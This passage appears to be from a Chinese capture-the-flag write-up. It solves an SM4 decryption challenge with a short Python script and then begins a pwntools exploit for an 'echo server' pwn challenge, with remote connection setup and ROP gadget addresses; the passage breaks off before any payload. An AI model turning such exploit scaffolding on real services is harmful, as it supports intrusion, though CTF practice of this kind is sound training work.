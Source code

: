原汁原味的SM4

密文0xC0797766,0x77E5AC99,0x31C567EB,0x470645A7

密钥0x1234567,  0x89ABCDEF,  0xFEDCBA98,  0x76543210

直接解密即可。ECB模式。

```plain
from pysm4 import encrypt, decrypt

mk =0x0123456789abcdeffedcba9876543210
cipher_num = 0xC079776677E5AC9931C567EB470645A7
clear_num=decrypt(cipher_num,mk)
print (hex(clear_num)[2:].replace('L', ''))
```
# **Pwn：**

## echo server** | SOLVED | working : TaQini,keer**

```python
#!/usr/bin/python
#coding=utf-8
#__author__:TaQini
from pwn import *
local_file  = './test'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = './libc.so.6'
is_local = False
is_remote = False
if len(sys.argv) == 1:
    is_local = True
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)
elf = ELF(local_file)
context.log_level = 'debug'
context.arch = elf.arch
se      = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))
def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)
# info
# gadget
prdi = 0x0000000000400823 # pop rdi ; ret
ret  = 0x000000000040055e # ret
# elf, libc
main = 0x400769
```